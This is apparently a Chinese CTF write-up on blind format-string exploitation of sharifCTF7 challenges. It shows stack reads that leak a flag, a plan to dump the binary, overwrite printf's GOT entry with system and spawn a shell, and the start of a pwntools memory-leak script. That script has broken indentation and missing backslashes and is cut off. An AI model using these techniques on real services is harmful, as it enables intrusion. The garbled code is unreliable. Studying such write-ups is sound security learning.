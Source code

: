 无binary的格式化字符串漏洞赛题一般都只给一个远程地址，根据这篇文章（[http://bobao.360.cn/ctf/detail/189.html](http://bobao.360.cn/ctf/detail/189.html) ）可知，这种题目叫“blind pwn”（那这里就是“blind formatstring”了），有点sql注入里面盲注的意思，挺好玩的。

这里选用sharifCTF7来举例，因为这个CTF的服务端至今还开放着，并且提供了三道从易到难的无binary格式化字符串漏洞利用题目，有兴趣的可以尝试一下。这三道题目也将格式化字符串漏洞利用的两种主要方式体现了出来，即“读取数据以泄漏信息”和“写入数据以获取控制权”。

**<br>**

**2、sharifCTF7-Guess（pwn 50）**

```
nc ctf.sharif.edu 54517
```

这题是将flag直接放置在栈中，用户可以输入format字符串并返回相应信息。通过构造类似“%x*n”这样的输入即可获得栈中的n字节信息，从而将隐藏在栈中的flag直接拿到。

通过输入%1$p可知目标系统是64位，然后使用%k$lx并一直增加k值。当k=136时，输出5443666972616853，hex转码后即为“TCfirahS”，说明马上就到flag了，继续增加k，结果如下。



```
136 5443666972616853 TCfirahS
137 3832346435617b46 824d5a{F
138 6237636363323336 b7ccc236
139 6136633735336466 a6c753df
140 3561383761383231 5a87a821
141 00007ff6007d6338 }c8
Flag：SharifCTF{a5d428632ccc7bfd357c6a128a78a58c}
```



**3、sharifCTF7-NoMoreBlind（pwn 200）**

```
nc ctf.sharif.edu 54514
```

这题可以无限次输入字符串，每次均可得到反馈。通过输入“%3$p%4$p”进行测试，我们可以确定目标系统是32bit的，且偏移为4。本题的flag不在栈上，需要通过getshell来寻找，主要思路如下：

通过格式化字符串漏洞，利用%s将目标ELF文件dump出来；

分析并修复返回的ELF文件；

通过逆向ELF文件，了解程序的基本流程以及所用libc函数的GOT以获得system函数的实际地址；

将system函数地址写入printf函数的GOT表项处；

通过输入“/bin/sh”，利用已被改为system地址的printf来获得shell。

**3.1 利用格式化字符串漏洞dump出ELF**

先给出代码吧，此代码修改自其他人的，特此说明。

```
from pwn import *
def leakELF(addr):
    p = None
  for i in range(5): #多循环几次，放置连接中断
      try:
        p = remote("ctf.sharif.edu", 54518, timeout=1)
      payload = "ABCD%7$sDCBA" + p32(addr)
      if ("x0a" in payload) or ("x00" in payload):
          log.warning("newline in payload!")
        return "xff"
      p.sendline(payload)
      print p.recvline()
      data2 = p.recvline()
      log.info(hexdump(data2))
      if data2:
          fr = data2.find("ABCD") + 4
        to = data2.find("DCBA")
        res = data2[fr:to]  #定位出泄漏的数据位置
```